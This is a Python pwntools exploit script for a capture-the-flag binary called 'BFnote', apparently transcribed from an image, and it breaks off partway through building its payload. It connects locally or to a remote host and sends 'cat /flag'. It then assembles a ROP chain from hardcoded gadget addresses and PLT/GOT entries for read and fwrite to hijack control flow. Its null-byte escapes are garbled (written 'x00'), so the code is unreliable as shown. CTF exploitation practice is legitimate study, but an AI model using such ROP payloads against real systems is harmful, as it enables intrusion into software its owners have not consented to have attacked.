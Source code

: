 ```
from pwn import *
import sys
context.log_level='debug'
# context.arch='amd64'
context.arch='i386'

BFnote=ELF('./BFnote', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./BFnote")

def get_address(sh,info=null,start_string=null,end_string=null,offset=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address+offset)))
    return return_address+offset

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,stop=False):
    gdb.attach(sh)
    if stop :
        raw_input()

if __name__ == "__main__":
    sh = get_sh()
    ppp_ret  = 0x080489d9
    pp__ret  = 0x080489da
    flag_st  = 0x0804A060
    read_md  = 0x0804A068

    payload  = '/flagx00x00x00'
    payload += 'rx00x00x00x00x00x00x00'
    payload  = payload.ljust(0x400,'x00')

    payload += p32(BFnote.plt['read'])
    payload += p32(ppp_ret)
    payload += p32(0)                                  # fd
    payload += p32(BFnote.got['fwrite'])               # buf
    payload += p32(2)                                  # size

    payload += p32(BFnote.plt['fwrite'])
```